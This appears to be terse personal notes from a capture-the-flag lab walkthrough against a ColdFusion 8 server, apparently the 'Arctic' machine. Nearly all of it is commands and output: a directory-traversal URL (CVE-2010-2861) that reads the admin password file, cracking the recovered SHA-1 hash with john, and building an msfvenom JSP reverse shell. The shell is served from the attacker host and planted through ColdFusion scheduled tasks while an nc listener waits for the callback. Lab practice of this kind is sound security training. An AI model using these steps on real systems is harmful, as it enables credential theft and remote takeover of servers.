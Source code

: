 searchsploit coldfusion

ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)    | exploits/cfm/webapps/16788.rb
Adobe ColdFusion Server 8.0.1 - '/administrator/enter.cfm' Query Str | exploits/cfm/webapps/33170.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_authenticatewizard | exploits/cfm/webapps/33167.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_logintowizard.cfm' | exploits/cfm/webapps/33169.txt
Adobe ColdFusion Server 8.0.1 - 'administrator/logviewer/searchlog.c | exploits/cfm/webapps/33168.txt
Adobe ColdFusion - 'probe.cfm' Cross-Site Scripting                  | exploits/cfm/webapps/36067.txt
Adobe ColdFusion - Directory Traversal                               | exploits/multiple/remote/14641.py
Adobe ColdFusion - Directory Traversal (Metasploit)                  | exploits/multiple/remote/16985.rb

CVE-2010.2861
<http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../../../../../../../../../../../../../Coldfusion8/lib/password.properties%00en>

#Wed Mar 22 20:53:51 EET 2017 rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP \n password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 encrypted=true 

hashid -m 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
Analyzing '2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03'
[+] SHA-1 [Hashcat Mode: 100]
[+] Double SHA-1 [Hashcat Mode: 4500]
[+] RIPEMD-160 [Hashcat Mode: 6000]
[+] Haval-160 
[+] Tiger-160 
[+] HAS-160 
[+] LinkedIn [Hashcat Mode: 190]
[+] Skein-256(160. 
[+] Skein-512(160. 


user@kalisi:~/Downloads$ hashcat -m 100 sha1hash --show
user@kalisi:~/Downloads$ 


sudo john --format=raw-sha1 sha1hash
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
happyday         (?)
1g 0:00:00:00 DONE 2/3 (2020.06.12 07:39. 100.0g/s 145600p/s 145600c/s 145600C/s hamilton..harley1
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed

user@kalisi:~/Downloads$ sudo john --format=raw-sha1 sha1hash --show
?:happyday

1 password hash cracked, 0 left

---
#create payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=41854 -f raw > arcticreverseshell.jsp

#serve up payload
sudo python -m SimpleHTTPServer 80

#listener
nc -nlvp 41854

#ColdFusion Scheduled Tasks
URL:<http://10.10.14.5/arcticreverseshell.jsp>
File: C:\ColdFustion8\wwwroot\CFIDE\arctic.jsp


